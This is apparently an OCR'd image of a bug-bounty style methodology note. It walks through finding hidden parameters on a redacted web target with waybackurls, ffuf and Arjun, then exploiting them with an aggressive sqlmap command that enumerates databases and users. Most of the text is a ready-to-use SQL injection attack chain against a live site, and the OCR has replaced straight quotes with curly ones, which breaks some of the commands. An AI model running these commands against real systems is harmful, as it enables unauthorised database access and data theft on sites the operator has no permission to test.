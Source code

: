 ```
1. Use subdomain enumeration tools on the domain.
2. Gather all urls using hakcrawler, waybackurls, gau for the domain and subdomains.
3. You can use the same method described above in 2nd point.
4. Use Arjun to scan for the hidden params in the urls. 
5. Use --urls flag to include all urls.
6. Check the params as https://domain.com?<hiddenparam>=<value>
7. Send request to file and process it through sqlmap.
```

**multiple SQL Injection with FFUF and Sqlmap in a few minutes target **`redacted.org`****

```bash
waybackurls https://redacted.org/ | uro | grep “.php” > php-files.txt

-parse these files and grep only lines which contain get string and delete all before it and make it unique to avoid the duplicate, so our command will be

cat php-files.txt| grep -i get | sed ‘s/.*.get//’ | sort -u

- remove .php string to make a list, so I just added the line to the last command cut -f1 -d”.”

cat php-files.txt| grep -i get | sed ‘s/.*.get//’ | cut -f1 -d”.” | sort -u 

- spliting any two words to get parameters

cat php-files.txt| grep -i get | sed ‘s/.*.get//’ | cut -f1 -d”.” | sed ‘s/[A-Z]\+/\n&/g’ | sort -u > uppercase-parameters.txt

head uppercase-parameters.txt

cat php-files.txt| grep -i get | sed ‘s/.*.get//’ | cut -f1 -d”.” | sed ‘s/[A-Z]\+/\n&/g’ | sort -u | tr '[:upper:]' '[:lower:]' > lowercase-parameters.txt

head lowercase-parameters.txt

- so now we have two lists of parameters let’s test it with FFUF, firstly I’ll grep endpoint and test all params with it, I’ll try the lowercase-parameters first with this command:


ffuf -w lowercase-parameters.txt -u "https://redacted.org/searchProgressCommitment.php?FUZZ=5"

- what about changing the request method to POST!

ffuf -w lowercase-parameters.txt -X POST -d "FUZZ=5" -u "https://redacted.org/searchProgressCommitment.php"

- And BINGOOOOOOO  I got commitment & id parameters as a result -

- now go to the endpoint and intercept the request with burp and change the request method, add the parameter, and copy it to a txt file to run sqlmap on it

sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast


```
